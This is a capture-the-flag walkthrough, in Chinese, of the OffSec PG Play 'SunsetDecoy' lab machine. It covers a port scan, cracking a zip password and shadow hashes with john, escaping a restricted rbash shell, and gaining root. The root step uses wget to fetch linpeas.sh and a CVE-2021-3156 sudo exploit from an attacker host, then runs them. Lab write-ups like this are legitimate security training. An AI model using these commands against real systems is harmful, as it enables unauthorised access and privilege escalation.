


###### tags: `Offsec` `PG Play` `Easy` `Linux`

# SunsetDecoy
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 192.168.195.85 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.195.85:22
Open 192.168.195.85:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxxReThUimjbPP7ZO1dPbvqSobxafY5J8i9Un5zUH7z9uIZEOHNXzEsq8Vko44IBRv2a7xvuuqtk7yN3XwKdyh8mrt1bV/C7Yx6CZ1q7CiQyYd0QoUqyrp6dGdT6T4fYZ7OwUwyubgqEYdkmiS8qNvlKI2qWdj9hntzzWF9X0F+jbxhLOi6Ovo5DGaSiKxsU/ISjnDsR3geodqeVHbMR+jRq7ucIjRSIOHvp8u9LvrugorZDhdv14yJQj7zfySL1T8WcI8kKUECmZgZTk6iUKYLWZ95oo07kKIs6EeTEGNswUeTjEVebhUFHMep6W1ehU7cE6OREkeZ0Rvuh4EpUTx
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGKuMuZL3YT/QadMNsFaoWvNYLjKK/DlWoz1/15wGhrauU2OMlHQWEc7ChAX+QdIWc1aEN6IAabgvzIzHPnRYV0=
|   256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILNCj4KmJHpZhhE3ZdD/NkVmz1ePM2XW6l0uK3yCT0Og
80/tcp open  http    syn-ack Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

查看`80 port`，可以看到一個檔案`save.zip`，嘗試利用john來破密碼



```
┌──(kali㉿kali)-[~/pgplay/SunsetDecoy]
└─$ zip2john save.zip > ziphash.txt

┌──(kali㉿kali)-[~/pgplay/SunsetDecoy]
└─$ john ziphash.txt --wordlist=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manuel           (save.zip)     
1g 0:00:00:00 DONE (2024-03-12 03:48) 25.00g/s 204800p/s 204800c/s 204800C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

解出來有這些檔案



查看`shadow file`
```
## shadow
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
...
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
```

查看`passwd`，有個帳號是`296640a3b825115a47b68fc44501c828`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
avahi:x:107:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:108:118::/var/lib/saned:/usr/sbin/nologin
colord:x:109:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:110:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
296640a3b825115a47b68fc44501c828:x:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash
```

用`john`破解
```
┌──(kali㉿kali)-[~/pgplay/SunsetDecoy]
└─$ john hash --wordlist=/home/kali/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (?) 
```

ssh登入`296640a3b825115a47b68fc44501c828`帳號，發現用`rbash`
```
┌──(kali㉿kali)-[~/pgplay/SunsetDecoy]
└─$ ssh 296640a3b825115a47b68fc44501c828@192.168.195.85

296640a3b825115a47b68fc44501c828@192.168.195.85's password:  server

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  local.txt  ls  mkdir  user.txt
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt
-rbash: cat: command not found
```

改用bash登入，查看PATH發現設在home，改成`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`，可在`/home/296640a3b825115a47b68fc44501c828`得local.txt
```
┌──(kali㉿kali)-[~/pgplay/SunsetDecoy]
└─$ ssh 296640a3b825115a47b68fc44501c828@192.168.195.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.195.85's password: server

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ which cat
/usr/bin/cat

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt
Your flag is in another file...
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat local.txt
5206c8f3e79064408e0d235bed2e57a4
```

用`linpeas.sh`
```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ wget 192.168.45.204/linpeas.sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x linpeas.sh 
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./linpeas.sh

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                             
Sudo version 1.8.27

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

試[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)，成功root後，在/root可得proof.txt
```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ wget 192.168.45.204/exploit_nss.py
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ python3 exploit_nss.py
sudoedit: unable to resolve host 60832e9f188106ec5bcc4eb7709ce592: Name or service not known
# whoami
root

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@60832e9f188106ec5bcc4eb7709ce592:/root# cat proof.txt
f03f3f6e30efea655e20af97459a03e7
```